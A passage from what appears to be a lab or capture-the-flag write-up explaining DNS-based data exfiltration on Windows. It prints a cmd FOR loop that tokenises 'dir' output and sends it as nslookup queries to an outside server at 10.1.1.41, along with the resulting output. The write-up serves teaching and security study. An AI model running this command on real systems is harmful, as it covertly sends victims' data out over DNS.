     *** UnKnown can't find 0.File(s).0.bytes......................: Unspecified error
    DNS request timed out.
        timeout was 2 seconds.
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find 2.Dir(s).4,913,123,328.bytes.free.....................: Unspecified error
    

The reason it fails is because you can’t have two `.` in a row in a valid
domain name. I’ll fix that by including a single character in before each
token. That way, an empty token will still produce that character, and I can
just remove it on the receiving end.

In the real thing, I’ll use the same character for each token, but for
demonstration, I’ll show this one with each token having a different
character. I’ll show the dir, and then the output from running the loop over
it:

    
    
    C:\Users\0xdf\test>dir /x
     Volume in drive C has no label.
     Volume Serial Number is F06E-7663
    
     Directory of C:\Users\0xdf\test
    
    02/25/2019  07:04 AM    <DIR>                       .
    02/25/2019  07:04 AM    <DIR>                       ..
                   0 File(s)              0 bytes
                   2 Dir(s)   4,913,123,328 bytes free
    
    C:\Users\0xdf\test>@echo off & (FOR /F "tokens=1-26" %a IN ('dir /x .') DO ( nsl
    ookup "A%a.B%b.C%c.D%d.E%e.F%f.G%g.H%h.I%i.J%j.K%k.L%l.M%m.N%n.O%o.P%p.Q%q.R%r.S
    %s.T%t.U%u.V%v.W%w.X%x.Y%y.Z%z" 10.1.1.41)) & @echo on
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find AVolume.Bin.Cdrive.DC.Ehas.Fno.Glabel..H.I.J.K.L.M.N.O.P.
    Q.R.S.T.U.V.W.X.Y.Z: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find AVolume.BSerial.CNumber.Dis.EF06E-7663.F.G.H.I.J.K.L.M.N.
    O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server
    Server:  UnKnown
    Address:  10.1.1.41
    
    DNS request timed out.
        timeout was 2 seconds.
    *** UnKnown can't find ADirectory.Bof.CC:\Users\0xdf\test.D.E.F.G.H.I.J.K.L.M.N.
    O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server
    Server:  UnKnown
    Address:  10.1.1.41
    
    *** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E..F.G.H.I.J.K.L.M.N.O.P.Q.
    R.S.T.U.V.W.X.Y.Z: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
    